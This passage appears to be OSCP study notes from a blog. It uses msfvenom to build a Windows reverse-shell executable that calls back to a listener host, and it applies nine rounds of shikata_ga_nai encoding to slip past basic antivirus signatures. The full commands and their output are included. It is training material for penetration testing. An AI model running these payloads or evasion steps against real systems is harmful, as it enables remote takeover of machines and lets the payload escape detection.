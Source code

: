 
![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/10.jpg)


![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/11.jpg)



![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/22/12.jpg)


• let’s use the msfvenom utility to generate a raw Windows PE reverse shell executable. 
 
• We’ll use the -p flag to set the payload, set LHOST and LPORT to assign the listening host and port, -f to set the output format (exe in this case), and 
 -o to specify the output file name.
 
 kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -o
shell_reverse.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell_reverse.exe

kali@kali:~$ file shell_reverse.exe


shell_reverse.exe: PE32 executable (GUI) Intel 80386, for MS Windows

 
• shellcode embedded in the PE file can be encoded using any of the many MSF encoders.
 
• this helped evade antivirus, though this is no longer true with modern AV engines.
 
 
• The encoding is configured with -e to specify the encoder type and -i to set the desired number ofencoding iterations.
 
• We can use multiple encoding iterations to further obfuscate the binary, which could effectively evade rudimentary signature detection.
 
 kali@kali:~$ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f exe -e
x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai succeeded with size 378 (iteration=1)
x86/shikata_ga_nai succeeded with size 405 (iteration=2)
x86/shikata_ga_nai succeeded with size 432 (iteration=3)
x86/shikata_ga_nai succeeded with size 459 (iteration=4)
x86/shikata_ga_nai succeeded with size 486 (iteration=5)
x86/shikata_ga_nai succeeded with size 513 (iteration=6)
x86/shikata_ga_nai succeeded with size 540 (iteration=7)
x86/shikata_ga_nai succeeded with size 567 (iteration=8)
x86/shikata_ga_nai chosen with final size 567
Payload size: 567 bytes
Final size of exe file: 73802 bytes
Saved as: shell_reverse_msf_encoded.exe

